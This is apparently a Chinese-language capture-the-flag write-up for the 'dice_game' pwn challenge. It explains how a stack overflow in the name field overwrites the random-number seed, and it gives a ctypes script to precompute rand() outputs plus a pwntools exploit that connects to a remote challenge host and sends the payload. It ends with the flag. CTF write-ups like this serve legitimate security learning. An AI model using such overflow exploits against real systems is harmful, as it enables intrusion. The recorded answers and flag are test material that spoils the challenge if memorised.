# dice_game

这道题我之前做过类似的，所以思维完全被带到之前的做法了，完全没有注意到环境的不一样。

场景是一个nc地址，附件里有libc和程序。checksec程序发现配置还挺豪华，除了canary全开了。

-    Arch:     amd64-64-little<br>RELRO:    Full RELRO<br>Stack:    No canary found<br>NX:       NX enabled<br>PIE:      PIE enabled

看名称感觉是个猜数字的挑战，反编译程序也发现确实如此。

![main](../../images/theMain.png)

看到srand我的DNA就动了，C语言随机数这类的题之前做过了，起码有点思路了。FUN_00100a20是判断猜的数字对不对的函数。

![function](../../images/FUN_00100a20.png)

又看见了第二个熟悉的面孔：rand。这俩玩意在一起出现基本就是考随机数了。所以我下意识认为这是一个预测随机数的题，因为main里面似乎是使用了当前时间作为srand的种子，那么我只要在刚刚连上nc后再在本地自己跑一个c程序提前拿到答案就行了。

事实证明不行。我忽略了一个很重要的点：第一我本地使用的并不是提供的libc，第二使用的种子可能不单纯只是时间（这点不确定，毕竟逆向出来的代码有点难判断）。所以只能找点别的办法了。

上面的豪华配置少了个canary，而canary又是为了防止栈溢出的。回头看了下接收名字输入的地方，0x50的大小。可是上面明明写着local_58只有6个byte那么大啊？看来是栈溢出没跑了。既然是栈溢出，那我们就要看看溢出的目标是啥。

![stack](../../images/theStack.png)

随机数所使用的种子是local_18,我们的输入是local_58。local_18在stack-0x18,local_58在stack-0x58，那么两者就间隔0x40。所以我们要填充0x40个没用的byte才能到local_58，最后再接上一个我们想要改的值就行了，比如0或者1。这里由于我本地环境无法使用python的ctypes库，所以只能先把答案提前打印出来。

```python
from ctypes import *
libc=cdll.LoadLibrary("libc.so.6")
answers=[]
for i in range(50):
    answers.append(libc.rand()%6+1)
print(answers)
```

- ### ctypes
- > Python 的外部函数库。它提供了与 C 兼容的数据类型，并允许调用 DLL 或共享库中的函数。无需第三方安装。

- ### cdll.LoadLibrary()
- > 导入指定文件名的共享库

嗲用cdll.LoadLibrary后我们就可以使用里面的函数了，具体就是对象名.调用的函数。这里没有播种直接使用rand得操作和srand播种0或者1的结果是一样的。

最后exp使用了python的pwntools库，这是一个在python下很好用的pwn第三方模块。

```python
from pwn import *
payload=b'A'*0x40+p64(1)
answers=[2, 5, 4, 2, 6, 2, 5, 1, 4, 2, 3, 2, 3, 2, 6, 5, 1, 1, 5, 5, 6, 3, 4, 4, 3, 3, 3, 2, 2, 2, 6, 1, 1, 1, 6, 4, 2, 5, 2, 5, 4, 4, 4, 6, 3, 2, 3, 3, 6, 1]
proc=remote('61.147.171.105',62201)
proc.sendlineafter("Welcome, let me know your name:",payload)
for i in answers:
    print(proc.recv())
    proc.sendline(str(i))
print(proc.recvall())
```

- ### Flag
- > cyberpeace{9676b83ce7efcc02756df66432d6be97}


